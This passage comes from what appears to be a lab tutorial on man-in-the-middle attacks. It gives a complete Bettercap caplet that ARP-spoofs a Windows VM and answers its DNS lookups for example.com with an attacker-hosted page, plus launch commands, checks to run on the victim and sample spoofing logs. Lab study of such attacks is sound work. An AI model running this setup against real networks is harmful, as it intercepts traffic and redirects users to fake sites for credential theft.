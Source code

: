 **2. Launch Bettercap with caplet:**

My `spoof.cap` file:
```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 172.16.236.145
arp.spoof on
set dns.spoof.address 172.16.236.128
set dns.spoof.domains example.com
dns.spoof on
net.sniff on
```

**3. Execute:**
```bash
sudo bettercap -iface eth0 -caplet spoof.cap
```

**4. Test on Windows VM:**

Visit `http://example.com` - the fake page from Apache appears instead of the legitimate site.

---

## Verification

### On Windows VM

```cmd
# Check ARP cache - gateway should show attacker's MAC
arp -a

# Try to visit the spoofed domain
http://example.com
```

### On Kali (Bettercap logs)

```
[sys.log] [inf] dns.spoof sending spoofed DNS reply for example.com (->172.16.236.128) to 172.16.236.145
```

This confirms the DNS query was intercepted and a fake reply was sent.

---

## Limitations and Reality Check

### What Works
- ✅ Plain HTTP sites (increasingly rare)
- ✅ Sites without HSTS or certificate pinning
- ✅ Local intranet sites
- ✅ IoT devices with HTTP interfaces
